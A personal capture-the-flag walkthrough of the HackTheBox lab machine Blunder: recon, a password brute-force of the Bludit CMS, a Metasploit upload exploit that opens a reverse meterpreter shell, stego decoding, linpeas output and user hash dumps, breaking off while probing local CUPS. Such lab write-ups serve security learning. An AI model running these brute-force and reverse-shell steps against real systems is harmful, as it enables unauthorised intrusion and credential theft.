

# [05 - Blunder](https://app.hackthebox.com/machines/Blunder)

  * [description](#description)
  * [walkthrough](#walkthrough)
    * [recon](#recon)
    * [80](#80)
    * [fergus](#fergus)
    * [hugo](#hugo)
    * [CVE-2021-4034](#CVE-2021-4034)
  * [flag](#flag)


## description
> 10.10.10.191

## walkthrough

### recon

```
$ nmap -sV -sC -A -Pn -p- blunder.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-22 19:19 MDT
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.056s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

ftp explicitly closed? that's going to be relevant later.

### 80

while waiting for nmap, looked at 80.

> A blunder of interesting facts

looks like a blog

a lot of the included links hit `10.10.10.191` and not `blunder.htb`

```html
	<a class="text-dark" href="http://10.10.10.191/stephen-king-0">
			<h2 class="title">Stephen King</h2>
...
	<a class="text-dark" href="http://10.10.10.191/stadia">
			<h2 class="title">Stadia</h2>
```

gobuster is going to be interesting.

no ability to comment or create new posts.

working this command out
```
$ gobuster dir -u http://blunder.htb -w ~/git/ctf/tools/wordlists/SecLists/Discovery/Web-Content/quickhits.txt -r --status-codes-blacklist 403 --exclude-length 3144
...
//%3f/                (Status: 200) [Size: 7562]
//.gitignore          (Status: 200) [Size: 563]
//install.php         (Status: 200) [Size: 30]
//README.md           (Status: 200) [Size: 2893]


```

and `.gitignore`
```
.DS_Store
dbgenerator.php
bl-content/*
bl-content-migrator
bl-plugins/timemachine
bl-plugins/timemachine-x
bl-plugins/discovery
bl-plugins/updater
bl-plugins/medium-editor
bl-plugins/quill
bl-plugins/yandex-metrica/
bl-plugins/domain-migrator/
bl-plugins/tail-writer/
bl-kernel/bludit.pro.php
bl-kernel/admin/themes/gris
bl-themes/docs
bl-themes/docsx
bl-themes/editorial
bl-themes/mediumish
bl-themes/clean-blog
bl-themes/grayscale
bl-themes/massively
bl-themes/hyperspace
bl-themes/striped
bl-themes/log
bl-themes/micro
bl-themes/tagg
bl-themes/future-imperfect
```

GETing `install.php`
> Bludit is already installed ;)

GETing [README.md](blunder-readme.md)

confirms `Bludit` but doesn't have a version number..

```
msf6 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability

```

looks good, but needs authentication


GETing `bl-content`

shows some interesting directories

  * databases
  * tmp
  * uploads

first 2 are 404, but uploads looks promising, if heavily populated.

```
$ wget --recursive --no-clobber --page-requisites --html-extension --convert-links --restrict-file-names=windows --domains blunder.htb --no-parent  http://blunder.htb/bl-content/
...
```

looks like a lot of nothing.

```
$ gobuster dir -u http://blunder.htb -w ~/git/ctf/tools/wordlists/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blunder.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/conor/git/ctf/tools/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/22 19:44:55 Starting gobuster in directory enumeration mode
===============================================================
/.gitignore           (Status: 200) [Size: 563]
/.git/logs/           (Status: 301) [Size: 0] [--> http://10.10.10.191/.git/logs]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/0                    (Status: 200) [Size: 7562]
/LICENSE              (Status: 200) [Size: 1083]
/about                (Status: 200) [Size: 3281]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
/cgi-bin/             (Status: 301) [Size: 0] [--> http://10.10.10.191/cgi-bin]
/robots.txt           (Status: 200) [Size: 22]
/server-status        (Status: 403) [Size: 276]
```

`Django.txt` found
```
/.github              (Status: 200) [Size: 954]
```

which has [issue_template.md](issue_template.md)

not helpful

swinging back to the `.gitignore` content - it's not all `bl-content` -- `bl-kernel` might be the way forward.

variety of plugins and json files here, but all get executed and returned (with http 500), and the themes don't even appear to actually be there.

gobusting with a larger directory list given we know `/` is a git repo gets us to

```
```


`todo.txt`:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

`fergus` sounds like a username to me, and `update the CMS` sounds like a patching vulnerability

still need some creds.

we can try `rockyou.txt` like we did when we thought the username was `admin` - but what about [CeWL](https://github.com/digininja/CeWL)?

```
$ ruby cewl.rb http://blunder.htb > cewl-creds.txt
$ wc -l cewl-creds.txt
330 cewl-creds.txt
```

much more reasonable


```
$ HTTP_PROXY=http://127.0.0.1:8080 ruby exploits/php/webapps/48746.rb -r http://blunder.htb -u fergus -w cewl-creds.txt
...
[*] Trying password: Contribution
[*] Trying password: Letters
[*] Trying password: probably
[*] Trying password: best
[*] Trying password: fictional
[*] Trying password: character
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

bah. looking at the blog post now, it is pretty obvious

onward.

### fergus

get to `blunder.htb/admin/dashboard` with these creds, looking around a bit, but we know msf has authenticated RCE, so

```
msf6 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      blunder.htb      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.9       yes       The listen address (an interface may be specified)
   LPORT  4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.9:4445
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading aCOBnlbyqx.png...
[*] Uploading .htaccess...
[*] Executing aCOBnlbyqx.png...
[*] Sending stage (39927 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.14.9:4445 -> 10.10.10.191:40762) at 2022-07-23 08:11:31 -0600
id -a

meterpreter > id -a
[-] Unknown command: id
meterpreter > shell
Process 12439 created.
Channel 0 created.
id -a
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

'shell' but it's a foothold.

```
pwd
/var/www/bludit-3.9.2/bl-content/tmp
ls -la /home/
total 16
drwxr-xr-x  4 root  root  4096 Apr 27  2020 .
drwxr-xr-x 21 root  root  4096 Jul  6  2021 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26  2020 hugo
drwxr-xr-x 16 shaun shaun 4096 Jul  6  2021 shaun
ls -la /var/www/
total 20
drwxr-xr-x  5 root     root     4096 Nov 28  2019 .
drwxr-xr-x 15 root     root     4096 Nov 27  2019 ..
drwxr-xr-x  8 www-data www-data 4096 May 19  2020 bludit-3.10.0a
drwxrwxr-x  8 www-data www-data 4096 Sep  8  2021 bludit-3.9.2
drwxr-xr-x  2 root     root     4096 Sep  8  2021 html

ls -la /ftp
total 10928
drwxr-xr-x  2 nobody nogroup     4096 Nov 27  2019 .
drwxr-xr-x 21 root   root        4096 Jul  6  2021 ..
-rw-r--r--  1 root   root    10899227 Nov 27  2019 D5100_EN.pdf
-rw-r--r--  1 root   root      271056 Nov 27  2019 config
-rw-r--r--  1 root   root         828 Nov 27  2019 config.json
-rw-r--r--  1 root   root         260 Nov 27  2019 note.txt

```

2 users? 2 versions of bludit?

and likely why the ftp server was disabled.

```
cat /ftp/note.txt
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
cat /ftp/config.json
{
  "squadName": "Super hero squad",
  "homeTown": "Metro City",
  "formed": 2016,
  "secretBase": "Super tower",
  "active": true,
  "members": [
    {
      "name": "Molecule Man",
      "age": 29,
      "secretIdentity": "Dan Jukes",
      "powers": [
        "Radiation resistance",
        "Turning tiny",
        "Radiation blast"
      ]
    },
    {
      "name": "Madame Uppercut",
      "age": 39,
      "secretIdentity": "Jane Wilson",
      "powers": [
        "Million tonne punch",
        "Damage resistance",
        "Superhuman reflexes"
      ]
    },
    {
      "name": "Eternal Flame",
      "age": 1000000,
      "secretIdentity": "Unknown",
      "powers": [
        "Immortality",
        "Heat Immunity",
        "Inferno",
        "Teleportation",
        "Interdimensional travel"
      ]
    }
  ]
}
file /ftp/config
/ftp/config: gzip compressed data, from Unix, original size modulo 2^32 286720
```

```
ps aux | grep python
root       971  0.0  0.4  38704 19996 ?        Ss   02:17   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
www-data 12632  0.0  0.3  17408 12692 ?        S    15:29   0:00 python -m SimpleHTTPServer
www-data 12649  0.0  0.0   3292   780 ?        S    15:30   0:00 grep python
cd /ftp
ls
D5100_EN.pdf
config
config.json
note.txt
cp config /tmp
cd /tmp
ls
config
mv config config.gz
file config.gz
config.gz: gzip compressed data, from Unix, original size modulo 2^32 286720
gunzip config.gz
ls
config
file config
config: POSIX tar archive (GNU)
tar -xvf config
buzz.wav
ls -la
total 568
drwxrwxrwt  2 root     root       4096 Jul 23 15:31 .
drwxr-xr-x 21 root     root       4096 Jul  6  2021 ..
-rw-r--r--  1 www-data www-data 283890 Nov 27  2019 buzz.wav
-rw-r--r--  1 www-data www-data 286720 Jul 23 15:31 config
file buzz.wav
buzz.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, stereo 44100 Hz
```

wasn't expecting a wav file here, and the python http server isn't reachable..

we're going to need this wav and the PDF too

```
ls -l /etc/apache2/sites-enabled
total 0
lrwxrwxrwx 1 root root 30 Nov 27  2019 bludit.conf -> ../sites-available/bludit.conf
cat /etc/apache2/sites-enabled/bludit.conf
<VirtualHost *:80>
ServerName www.linuxhelp1.com
DocumentRoot /var/www/bludit-3.9.2

<Directory /var/www/bludit-3.9.2/>
AllowOverride All
allow from all
</Directory>

</VirtualHost>
```

sitename `linuxhelp1.com`?

copying `buzz.wav` and `D5100_EN.pdf` to `/var/www/bludit-3.9.2` makes them available via apache, bypassing the python server that isn't reachable.

the PDF is for a nikon camera, looks like a red herring?
but so does buzz.wav, 1 second long with no audio? maybe stego?

kicking linpeas.sh while we're thinking about this

```
$ stegseek buzz.wav
StegSeek version 0.5
Progress: 1.91% (2673893 bytes)

[i] --> Found passphrase: "sophie"
[i] Original filename: "1.txt"
[i] Extracting to "buzz.wav.out"
```

nice.

```
$ cat buzz.wav.out
NWEgNmQgNTYgNzkgNWEgMzMgNTYgN2E=
$ cat buzz.wav.out | base64 -d
5a 6d 56 79 5a 33 56 7a
...
irb> [0x5a, 0x6d, 0x56, 0x79, 0x5a, 0x33, 0x56, 0x7a].collect { |c| c.chr }.join('') #=> "ZmVyZ3Vz"
```

ok,  that's a password. ssh? no ssh on this box.

linpeas

```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.25p1

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

...

shaun     1755  0.0  0.8 888604 35172 ?        Ssl  02:18   0:00  _ /usr/libexec/evolution-calendar-factory
shaun     1762  0.0  0.2 464708 10092 ?        Ssl  02:18   0:03  _ /usr/lib/gnome-settings-daemon[0m/gsd-sharing
shaun     1763  0.0  0.2 247868 11076 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-print-notifications
shaun     1766  0.0  0.4 374736 16280 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-datetime
shaun     1769  0.0  0.1 309640  6596 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-a11y-settings
shaun     1771  0.0  0.1 311692  7664 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-housekeeping
shaun     1777  0.0  0.7 420816 28444 ?        Ssl  02:18   0:01  _ /usr/lib/gnome-settings-daemon[0m/gsd-power
shaun     1778  0.0  0.1 235520  5824 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-screensaver-proxy
shaun     1786  0.0  0.2 314956 10072 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-smartcard
shaun     1787  0.0  0.6 346036 27156 ?        Ssl  02:18   0:01  _ /usr/lib/gnome-settings-daemon[0m/gsd-wacom
shaun     1789  0.0  0.7 568884 28612 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-color
shaun     1790  0.0  0.1 457108  5996 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-rfkill
shaun     1793  0.0  0.2 319136  8940 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-sound
shaun     1795  0.0  0.7 901264 29736 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-media-keys
shaun     1796  0.0  0.1 313924  8044 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-wwan
shaun     1801  0.0  0.7 347108 28552 ?        Ssl  02:18   0:01  _ /usr/lib/gnome-settings-daemon[0m/gsd-xsettings
shaun     1807  0.0  0.6 346568 27624 ?        Ssl  02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-keyboard
shaun     1829  1.8  1.0 217924 40708 ?        Sl   02:18  15:18  _ /usr/bin/vmtoolsd -n vmusr --blockFd 3
shaun     1893  0.0  0.3 343244 13416 ?        Sl   02:18   0:00  _ /usr/lib/gnome-settings-daemon[0m/gsd-printer
shaun     1942  0.0  0.7 781116 31444 ?        Ssl  02:18   0:00  _ /usr/libexec/evolution-addressbook-factory
shaun     2039  0.0  0.1 162136  6204 ?        Ssl  02:19   0:00  _ /usr/lib/gvfs/gvfsd-metadata
shaun     1345  0.0  0.1 240100  6824 ?        SLl  02:18   0:00 /usr/bin/gnome-keyring-daemon[0m --daemonize --login
  └─(Caps) 0x0000000000004000=cap_ipc_lock
rtkit     1382  0.0  0.0 152872  2936 ?        SNsl 02:18   0:00 /usr/libexec/rtkit-daemon
  └─(Caps) 0x0000000000800004=cap_dac_read_search,cap_sys_nice
root      1665  0.0  0.2 251892  9256 ?        Ssl  02:18   0:00 /usr/lib/upower/upowerd
colord    1877  0.0  0.3 246112 14492 ?        Ssl  02:18   0:00 /usr/lib/colord/colord
root      2086  0.0  0.1 238356  7692 ?        Ssl  02:19   0:00 /usr/lib/bolt/boltd

...

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      12632/python
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 ::1:631                 :::*                    LISTEN      -

...

╔══════════╣ Users with console
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash

...

╔══════════╣ Files inside others home (limit 20)
/home/hugo/.bashrc
/home/hugo/.profile
/home/hugo/user.txt
/home/hugo/.bash_logout
/home/shaun/Pictures/Screenshot from 2019-11-28 13-17-29.png
/home/shaun/Pictures/Screenshot from 2019-11-28 14-02-13.png
/home/shaun/.config/user-dirs.locale
/home/shaun/.config/gnome-initial-setup-done
/home/shaun/.config/user-dirs.dirs
/home/shaun/.cache/event-sound-cache.tdb.4cc89eefbc09494f81b5d471b91cd203.x86_64-pc-linux-gnu
/home/shaun/.cache/fontconfig/CACHEDIR.TAG
/home/shaun/.cache/fontconfig/5d338a75-6472-45b3-972a-f401b4d11bce-le64.cache-7
/home/shaun/.cache/fontconfig/a41116dafaf8b233ac2c61cb73f2ea5f-le64.cache-7
/home/shaun/.cache/tracker/meta.db-shm
/home/shaun/.cache/tracker/first-index.txt
/home/shaun/.cache/tracker/locale-for-miner-apps.txt
/home/shaun/.cache/tracker/db-version.txt
/home/shaun/.cache/tracker/parser-version.txt
/home/shaun/.cache/tracker/ontologies.gvdb
/home/shaun/.cache/tracker/meta.db

...

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/log/journal/4cc89eefbc09494f81b5d471b91cd203/system.journal
/var/log/syslog
/var/log/auth.log
/var/www/bludit-3.9.2/bl-content/workspaces/simple-stats/2022-07-23.log
/var/www/bludit-3.9.2/bl-content/databases/site.php

...

╔══════════╣ All hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 www-data www-data 395 Oct 19  2019 /var/www/bludit-3.10.0a/.htaccess
-rwxrwxr-x 1 www-data www-data 438 Nov 27  2019 /var/www/bludit-3.9.2/.htaccess
-rw-r--r-- 1 root root 220 May  5  2019 /etc/skel/.bash_logout
-rw------- 1 root root 0 Oct 17  2019 /etc/.pwd.lock
-rw-r--r-- 1 root root 0 Jul 23 02:17 /run/network/.ifstate.lock
-rw------- 1 root root 0 Apr 27  2020 /snap/core18/1754/etc/.pwd.lock
-rw-r--r-- 1 root root 220 Apr  4  2018 /snap/core18/1754/etc/skel/.bash_logout
-rw------- 1 root root 0 Jun 11  2021 /snap/core18/2074/etc/.pwd.lock
-rw-r--r-- 1 root root 220 Apr  4  2018 /snap/core18/2074/etc/skel/.bash_logout
-rw------- 1 root root 0 Jun 15  2021 /snap/core/11316/etc/.pwd.lock
-rw-r--r-- 1 root root 220 Sep  1  2015 /snap/core/11316/etc/skel/.bash_logout
-rw------- 1 root root 0 Apr 10  2020 /snap/core/9066/etc/.pwd.lock
-rw-r--r-- 1 root root 220 Sep  1  2015 /snap/core/9066/etc/skel/.bash_logout
-rw-r--r-- 1 root root 0 Nov 15  2018 /usr/share/dictionaries-common/site-elisp/.nosearch
-rw-r--r-- 1 hugo hugo 220 Nov 28  2019 /home/hugo/.bash_logout

...

╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/etc/brlapi.key
/etc/pam.d/common-password
/etc/pam.d/gdm-password
```

```
cat /etc/brlapi.key
cat: /etc/brlapi.key: Permission denied
```

```
ls -lR /home
/home:
total 8
drwxr-xr-x 16 hugo  hugo  4096 May 26  2020 hugo
drwxr-xr-x 16 shaun shaun 4096 Jul  6  2021 shaun

/home/hugo:
total 36
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Desktop
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Documents
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Downloads
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Music
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Pictures
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Public
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Templates
drwxr-xr-x 2 hugo hugo 4096 Nov 28  2019 Videos
-r-------- 1 hugo hugo   33 Jul 23 02:18 user.txt

/home/hugo/Desktop:
total 0

/home/hugo/Documents:
total 0

/home/hugo/Downloads:
total 0

/home/hugo/Music:
total 0

/home/hugo/Pictures:
total 0

/home/hugo/Public:
total 0

/home/hugo/Templates:
total 0

/home/hugo/Videos:
total 0

/home/shaun:
total 32
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Desktop
drwxr-xr-x 2 shaun shaun 4096 May 19  2020 Documents
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Downloads
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Music
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Pictures
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Public
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Templates
drwxr-xr-x 2 shaun shaun 4096 Nov 28  2019 Videos

/home/shaun/Desktop:
total 0

/home/shaun/Documents:
total 0

/home/shaun/Downloads:
total 0

/home/shaun/Music:
total 0

/home/shaun/Pictures:
total 616
-rw-r--r-- 1 shaun shaun 450632 Nov 28  2019 Screenshot from 2019-11-28 13-17-29.png
-rw-r--r-- 1 shaun shaun 175057 Nov 28  2019 Screenshot from 2019-11-28 14-02-13.png

/home/shaun/Public:
total 0

/home/shaun/Templates:
total 0

/home/shaun/Videos:
total 0
```

ok, `shaun` is the user we need to pop. we can read their screenshots, let's get them

screenshots are interesting.




the first shows a root flag and a poc.py being used to pop root. the second screenshot doesn't seem to have anything except the fullname of `Shaun Whorton`, which is a callback to `shaun` and the twitter account linked `@MrWhorton`, which DNE

getting a cleaner shell so we can try sudo auth

```
python -c "import pty; pty.spawn('/bin/bash')"
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ su hugo
su hugo
Password: ZmVyZ3Vz

su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ su shaun
su shaun
Password: ZmVyZ3Vz

su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

negative.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat /var/www/bludit-3.9.2/bl-content/databases/site.php
</var/www/bludit-3.9.2/bl-content/databases/site.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "title": "A blunder of interesting facts",
    "slogan": "Blunder",
    "description": "HackTheBox",
    "footer": "Copyright \u00a9 2019",
    "itemsPerPage": 6,
    "language": "en",
    "locale": "en, en_US, en_AU, en_CA, en_GB, en_IE, en_NZ",
    "timezone": "Europe\/London",
    "theme": "blogx",
    "adminTheme": "booty",
    "homepage": "",
    "pageNotFound": "",
    "uriPage": "\/",
    "uriTag": "\/tag\/",
    "uriCategory": "\/category\/",
    "uriBlog": "",
"url":"http:\/\/10.10.10.191\/",
    "emailFrom": "no-reply@localhost",
    "orderBy": "date",
    "currentBuild": 20190530,
    "twitter": "",
    "facebook": "",
    "codepen": "",
    "github": "",
    "instagram": "",
    "gitlab": "",
    "linkedin": "",
    "dateFormat": "F j, Y",
    "extremeFriendly": true,
    "autosaveInterval": 2,
    "titleFormatHomepage": "{{site-slogan}} | {{site-title}}",
    "titleFormatPages": "{{page-title}} | {{site-title}}",
    "titleFormatCategory": "{{category-name}} | {{site-title}}",
    "titleFormatTag": "{{tag-name}} | {{site-title}}",
    "imageRestrict": true,
    "imageRelativeToAbsolute": false,
    "mastodon": "",
    "thumbnailWidth": 400,
    "thumbnailHeight": 400,
    "thumbnailQuality": 100,
    "markdownParser": true
}
```

that is what is shown (mostly) in the second screenshot - url is different

and the same file in the `bludit-3.10.0a` path has a URL of
```
    "url": "http:\/\/10.10.10.201\/",
```

but no response - rabbit hole?

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cat databases/users.php
cat databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```

some hashes to crack - didn't fall by default (raw-SHA1) or ripemd-160 with rockyou, so expanding with Rules=Jumbo

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php
<r/www/bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

and another for hugo in the 'other' bludit instance - in the 3.9 version, we see salts for the password, but do not for the 3.10 version

while waiting -- what's on 631 port?

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ ps aux | grep cups
ps aux | grep cups
www-data   781  0.0  0.0   3292   780 pts/1    S+   18:05   0:00 grep cups
root      1060  0.0  0.2 181628 10040 ?        Ssl  02:17   0:00 /usr/sbin/cups-browsed
root      1174  0.0  0.1  27836  6336 ?        Ss   02:18   0:00 /usr/sbin/cupsd -l
```

cups.

[pret](https://github.com/RUB-NDS/PRET) seems like an obvious way forward.. but 631 is only exposed locally or on IPv6.

kick it around a bit manually first
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ nc -v localhost 631
nc -v localhost 631
Connection to localhost 631 port [tcp/ipp] succeeded!
HELO
HELO
TEST
TEST
<disconnect>
```

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ wget http://localhost:631
wget http://localhost:631
--2022-07-23 20:37:50--  http://localhost:631/
Resolving localhost (localhost)... 127.0.0.1
Connecting to localhost (localhost)|127.0.0.1|:631... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2364 (2.3K) [text/html]
Saving to: 'index.html'

index.html          100%[===================>]   2.31K  --.-KB/s    in 0s

2022-07-23 20:37:50 (345 MB/s) - 'index.html' saved [2364/2364]

www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cat index.html
cat index.html
<!DOCTYPE HTML>
<html>
  <head>
    <link rel="stylesheet" href="/cups.css" type="text/css">
    <link rel="shortcut icon" href="/apple-touch-icon.png" type="image/png">
    <meta charset="utf-8">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=9">
    <meta name="viewport" content="width=device-width">
    <title>Home - CUPS 2.2.12</title>
  </head>
  <body>
    <div class="header">
      <ul>
        <li><a href="http://www.cups.org/" target="_blank">CUPS.org</a></li>
        <li><a class="active" href="/">Home</a></li>
        <li><a href="/admin">Administration</a></li>
        <li><a href="/classes/">Classes</a></li>
        <li><a href="/help/">Help</a></li>
        <li><a href="/jobs/">Jobs</a></li>
        <li><a href="/printers/">Printers</a></li>
      </ul>
    </div>
    <div class="body">
      <div class="row">
        <h1>CUPS 2.2.12</h1>
        <p>CUPS is the standards-based, open source printing system developed by <a href="http://www.apple.com/">Apple Inc.</a> for macOS<sup>&reg;</sup> and other UNIX<sup>&reg;</sup>-like
